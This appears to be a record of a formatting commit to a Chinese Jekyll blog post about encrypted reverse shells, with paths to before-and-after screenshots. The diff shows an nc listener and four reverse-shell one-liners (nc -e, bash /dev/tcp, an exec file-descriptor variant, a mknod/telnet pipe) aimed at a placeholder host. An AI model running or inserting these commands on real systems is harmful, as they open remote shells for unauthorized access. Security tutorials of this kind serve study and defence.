

Before and after one commit to Green-m/Green-m.github.io, a Jekyll site: the page built from _posts/2019-11-06-encrypt-reverse-shell.md, in a window 1280 px wide and 900 px high, scrolled down 904 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Format fix.

````diff
--- a/_posts/2019-11-06-encrypt-reverse-shell.md
+++ b/_posts/2019-11-06-encrypt-reverse-shell.md
@@ -39,12 +39,15 @@ nc -lvp 23333
 
 ```
 nc -e /bin/bash x.x.x.x 23333
+
 bash -i >& /dev/tcp/x.x.x.x/23333 0>&1
+
 0<&137-;exec 137<>/dev/tcp/x.x.x.x/23333;sh <&137 >&137 2>&137
+
 mknod backpipe p && telnet x.x.x.x 8080 0< backpipe | /bin/bash 1> backpipe
 ```
 
-还有其他起码十几种方法，如perl，python，php等等。
+还有其他起码十几种方法，如perl，python，php等等，不一而足。
 
 
 
````
